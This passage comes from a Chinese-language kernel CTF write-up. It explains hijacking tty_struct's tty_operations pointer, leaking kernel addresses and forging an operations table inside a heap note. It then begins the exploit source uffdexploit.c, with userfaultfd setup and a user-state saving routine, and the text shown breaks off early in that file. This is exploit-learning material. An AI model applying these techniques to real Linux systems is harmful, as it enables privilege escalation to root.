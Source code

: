 ```c
	.chars_in_buffer = pty_chars_in_buffer,
	.unthrottle = pty_unthrottle,
	.set_termios = pty_set_termios,
	.start = pty_start,
	.stop = pty_stop,
	.cleanup = pty_cleanup,
};
```

在一个线程被阻塞时，我们可以通过read函数读取到tty_operations的地址值，通过最后12比特来确认这里的值是pty_unix98_ops还是ptm_unix98_ops。

**注意：tty_alloc_driver函数实际上调用的是__tty_alloc_driver这个函数，其中将tty_struct的magic字段赋值为TTY_DRIVER_MAGIC，值为0x5402（4.15.8版本内核，不同版本的值可能不同）。因此可以通过读取magic值判断这块内存是否被分配为tty_struct结构体。**

我们将tty_operations改为我们构造好的结构，但本题开启了SMP保护，不能直接写一个用户空间的内存地址。考虑到notegift函数能够为我们返回所有note的地址，因此可以考虑将tty_operations写在note里面。

# Step 11 exp编写——写好交互
实现接口与提示性输出。
uffdexploit.c:
```c
//
// Created by root on 22-7-28.
//
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <ctype.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#ifndef ROOTFS_UFFDEXPLOIT_H
#define ROOTFS_UFFDEXPLOIT_H
static pthread_t monitor_thread;
size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\n\033[0m");
}

void errExit(char * msg)
{
    printf("\033[1;31m[x] Error: %s\n\033[m", msg);
    exit(EXIT_FAILURE);
}

/**
 * 为一块指定地址addr、大小len的内存空间注册缺页异常函数handler
 */
```